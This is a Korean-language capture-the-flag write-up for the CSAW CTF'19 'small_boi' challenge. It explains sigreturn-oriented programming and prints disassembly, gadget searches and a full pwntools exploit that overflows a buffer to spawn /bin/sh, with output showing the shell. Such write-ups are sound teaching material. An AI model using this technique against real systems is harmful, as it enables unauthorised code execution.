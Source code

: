 # [WriteUp]CSAW CTF'19 Quals - small_boi

:black_nib:chykor12(sjjo0225@gmail.com)

---

SigReturn-Oriented Programming(SROP)을 사용하는 문제이다.

---

```bash
chykor12@ubuntu:~/CSAW CTF$ file small_boi
small_boi: ELF 64-bit LSB executable, x86-64, version 1 (SYSV), statically linked, BuildID[sha1]=070f96f86ab197c06c4a6896c26254cce3d57650, stripped
```

small_boi는 정적 링킹된 프로그램이다. `objdump`와 `strings`를 사용해서 프로그램을 보면, 막말로 있는 게 없다.

```bash
chykor12@ubuntu:~/CSAW CTF$ objdump -d small_boi

small_boi:     file format elf64-x86-64


Disassembly of section .text:

000000000040017c <.text>:
  40017c:	55                   	push   %rbp
  40017d:	48 89 e5             	mov    %rsp,%rbp
  400180:	b8 0f 00 00 00       	mov    $0xf,%eax
  400185:	0f 05                	syscall 
  400187:	90                   	nop
  400188:	5d                   	pop    %rbp
  400189:	c3                   	retq   
  40018a:	58                   	pop    %rax
  40018b:	c3                   	retq   
  40018c:	55                   	push   %rbp
  40018d:	48 89 e5             	mov    %rsp,%rbp
  400190:	48 8d 45 e0          	lea    -0x20(%rbp),%rax 
  400194:	48 89 c6             	mov    %rax,%rsi
  400197:	48 31 c0             	xor    %rax,%rax
  40019a:	48 31 ff             	xor    %rdi,%rdi
  40019d:	48 c7 c2 00 02 00 00 	mov    $0x200,%rdx
  4001a4:	0f 05                	syscall 
  4001a6:	b8 00 00 00 00       	mov    $0x0,%eax
  4001ab:	5d                   	pop    %rbp
  4001ac:	c3                   	retq   
  4001ad:	55                   	push   %rbp
  4001ae:	48 89 e5             	mov    %rsp,%rbp
  4001b1:	b8 00 00 00 00       	mov    $0x0,%eax
  4001b6:	e8 d1 ff ff ff       	callq  0x40018c
  4001bb:	48 31 f8             	xor    %rdi,%rax
  4001be:	48 c7 c0 3c 00 00 00 	mov    $0x3c,%rax
  4001c5:	0f 05                	syscall 
  4001c7:	90                   	nop
  4001c8:	5d                   	pop    %rbp
  4001c9:	c3                   	retq
```

```bash
chykor12@ubuntu:~/CSAW CTF$ strings -t x small_boi
    17a vPUH
    1ca /bin/sh
   1010 GCC: (Ubuntu 7.3.0-27ubuntu1~18.04) 7.3.0
   103b .shstrtab
   1045 .note.gnu.build-id
   1058 .text
   105e .rodata
   1066 .eh_frame_hdr
   1074 .eh_frame
   107e .data
   1084 .comment
```

대신 `"/bin/sh"`가 바이너리에 있다. 프로그램을 실행시켜 보면 `read` 시스템 콜로 `0x200`만큼 입력을 받고, `exit` 시스템 콜로 종료된다. `read` 시스템 콜에서 BOF를 발생시킬 수 있고, `syscall` 가젯이 있는 것으로 보아 레지스터를 적절히 조작하고 `execve` 시스템 콜을 실행하면 쉘을 획득할 수 있을 것 같은데, 레지스터를 조작하기에는 가젯이 많이 부족할 것 같다.

---

## Concept of SigReturn-Oriented Programming(SROP, x64)

SROP는 레지스터의 값을 임의로 변경할 수 있는 `sigreturn` 시스템 콜을 이용한 익스플로잇 기법이다. `sigreturn` 시스템 함수는 Signal을 처리하는 프로세스가 Kernel Mode에서 User Mode로 돌아올 때 스택을 복원하기 위해 사용되는 함수이다.

```c
asmlinkage long sys_rt_sigreturn(void){
    struct pt_regs *regs = current_pt_regs();
    struct rt_sigframe __user *frame;
...
    if (restore_sigcontext(regs, &frame->uc.uc_mcontext, uc_flags))
        goto badframe;
...
}
```

`restore_sigcontext()` 함수는 `COPY_SEG()`, `COPY()` 함수 등을 이용하여 스택에 저장된 값을 각 레지스터에 복사한다. 즉, 값을 레지스터에 저장할 수 있는 가젯이 없어도 `sigreturn()` 함수를 이용해 각 레지스터에 원하는 값을 저장할 수 있다는 것이다.

---

`rax`를 `0xf`로 맞춰주고 `syscall`을 호출하면 `sigreturn()` 함수로 레지스터의 값을 조작할 수 있다. `rax`를 `execve()`의 시스템 콜 넘버인 `0x3b`로, `rdi`를 `"/bin/sh"`의 주소로, `rip`를 `syscall`의 주소로 맞춰 주면 바로 쉘을 획득할 수 있을 것이다.(sigreturn frame을 설정할 때 레지스터의 값을 특정하지 않으면 0으로 설정된다.)

```bash
gdb-peda$ find /bin/sh
Searching for '/bin/sh' in: None ranges
Found 1 results, display max 1 items:
small_boi : 0x4001ca --> 0x68732f6e69622f ('/bin/sh')
```

```bash
gdb-peda$ ropsearch "pop rax"
Searching for ROP gadget: 'pop rax' in: binary ranges
0x0040018a : (b'58c3')	pop rax; ret
```

```bash
gdb-peda$ ropsearch syscall
Searching for ROP gadget: 'syscall' in: binary ranges
0x00400185 : (b'0f05905dc3')	syscall; nop; pop rbp; ret
0x004001c5 : (b'0f05905dc3')	syscall; nop; pop rbp; ret
0x004001a4 : (b'0f05b8000000005dc3')	syscall; mov eax,0x0; pop rbp; ret
```

sigreturn frame은 다음과 같이 설정할 수 있다.

```python
syscall = 0x400185 # address of "syscall" gadget
binsh = 0x4001ca # address of "/bin/sh"

frame = SigreturnFrame(arch = 'amd64')
frame.rax = 0x3b
frame.rdi = binsh
frame.rip = syscall
```

---

최종 익스플로잇은 다음과 같다.

```python
# exploit_small_boi.py

from pwn import *

addr_binsh = 0x4001ca # address of "/bin/sh"
pop_rax = 0x40018a # address of "pop rax; ret" gadget
syscall = 0x400185 # address of "syscall" gadget
binsh = 0x4001ca # address of "/bin/sh"

payload = "A" * 0x28
payload += p64(pop_rax)
payload += p64(0xf) # Sigreturn syscall number
payload += p64(syscall)

frame = SigreturnFrame(arch = 'amd64')
frame.rax = 0x3b
frame.rdi = binsh
frame.rip = syscall

payload += str(frame)

r = process("./small_boi")
# r = remote("pwn.chal.csaw.io", 1002)

r.send(payload)

r.interactive()

```

```bash
chykor12@ubuntu:~/CSAW CTF$ python exploit_small_boi.py
[+] Starting local process './small_boi': pid 2614
[*] Switching to interactive mode
$ whoami
chykor12

```

